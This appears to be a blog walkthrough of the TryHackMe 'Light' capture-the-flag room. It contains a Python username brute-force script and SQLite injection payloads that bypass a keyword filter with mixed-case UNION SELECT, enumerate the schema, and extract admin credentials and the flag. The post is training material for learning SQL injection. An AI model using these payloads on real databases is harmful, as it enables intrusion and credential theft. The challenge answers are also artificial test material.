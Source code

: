 ```yaml
---
layout: post
title: "TryHackMe Light Walkthrough - SQL Injection Challenge"
description: "Complete step-by-step walkthrough for TryHackMe's Light room featuring SQLite injection techniques, database enumeration, and admin credential extraction. Perfect for beginners learning SQL injection fundamentals."
date: 2025-08-15 10:00:00 +0000
categories: [Cybersecurity, Writeups, Tryhackme]
tags: [tryhackme, thm, sql-injection, sqlite, database, enumeration, ctf, beginner-friendly]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838
sitemap:
  priority: 0.8
  changefreq: monthly
---
```



# TryHackMe Light Walkthrough
Link to the Room : https://tryhackme.com/room/lightroom

```
I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE-IP 1337`  
You can use the username `smokey` in order to get started.
```
Lets start the machine and wait for 2-3 minutes, let the machine get fully functional.

`Q1 What is the admin username?`

As usual running a full port scan for identifying potential entry points.
`nmap -p- -T4 MACHINE-IP -vv`
![[_posts/attachments/Pasted image 20250816001828.png]]

Meanwhile lets try connecting to the port 1337
`nc MACHINE-IP 1337`
Lets try the username provided `smokey`
![[_posts/attachments/Pasted image 20250816002133.png]]
Alright!

So, I guess we can try brute-forcing a wordlist of usernames, but we cannot use ffuf...
So,
I took this script from ChatGPT, and modified it little to make it work.
```python
import socket

target_ip = "10.201.15.128"  # change this
target_port = 1337
wordlist = "SecLists/Usernames/cirt-default-usernames.txt"  # your username list

with open(wordlist, "r") as f:
    usernames = [u.strip() for u in f if u.strip()]

for user in usernames:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))

    # Receive initial banner / prompt
    banner = s.recv(1024).decode()
    print(banner.strip())

    u = s.recv(1024).decode()
    print(u.strip())

    # Send username
    s.send((user + "\n").encode())

    # Receive response
    response = s.recv(1024).decode()
    print(f"[{user}] -> {response.strip()}")

    s.close()

```

I tried few wordlists but didn't find anything.

Got back to the nmap scan and LOL!, its gonna take forever so its not the way in for sure!
![[_posts/attachments/Pasted image 20250816003201.png]]

What else can we do? Found no `http` pages, where can we even use the credentials we've got earlier?
Lets try to change the approach.

Lets try putting in some random input, my mind is getting a little idea of where it is going _maybe_.
![[_posts/attachments/Pasted image 20250816003925.png]]
Its more of an Injection vulnerability I see
Its been a long I have not dealt with a SQLi, now quickly digging through my notes for revising required methods.

From the responses below
![[_posts/attachments/Pasted image 20250816004841.png]]
I can imagine of a SQL query
`select pass from users where user='<input>' limit 30`

Now we'll try creating some SQL payloads based on the payloads I already have in my notes.
`'union select 1'`
![[_posts/attachments/Pasted image 20250816005530.png]]
Okhayy!
They might be blocking some keywords most probably as an easy way out. 
Here might be a logic error lets try `'UnIOn sElecT 1'`
![[_posts/attachments/Pasted image 20250816005739.png]]
as a developer I would also blacklist these keywords as its an easy fix(not a fix really). Laziness is a problem frr.
I love these kinda logic based errors!

Lets start enumerating.
`'Union Select @@version'`
Didn't work maybe some other database!

Refer this https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration

This one worked
`'Union Select sqlite_version()'`
Its sqlite database version: 3.31.1
![[_posts/attachments/Pasted image 20250816010644.png]]

Using the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) Repository for reference!

`'Union Select sql from sqlite_master'`
![[_posts/attachments/Pasted image 20250816010906.png]]

Now we know the table name, column names.
Enough to craft useful payloads.

> You can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration)and suitable LLM for crafting payloads

`'Union Select username from admintable where id='1`
![[_posts/attachments/Pasted image 20250816011619.png]]
If needed we could've dumped all but in this case we don't need the whole database.

![[_posts/attachments/Pasted image 20250816011809.png]]

`Q2 What is the password to the username mentioned in question 1?`
`'Union Select password from admintable where username='<admin-user>`
![[_posts/attachments/Pasted image 20250816012001.png]]

![[_posts/attachments/Pasted image 20250816012439.png]]

`Q3 What is the flag?`
Till now you could've figured it out, we have already got the id for the user flag, so most probably its password will be the final flag.
Little modifications to the previous payload will get you the flag.

![[_posts/attachments/Pasted image 20250816012516.png]]




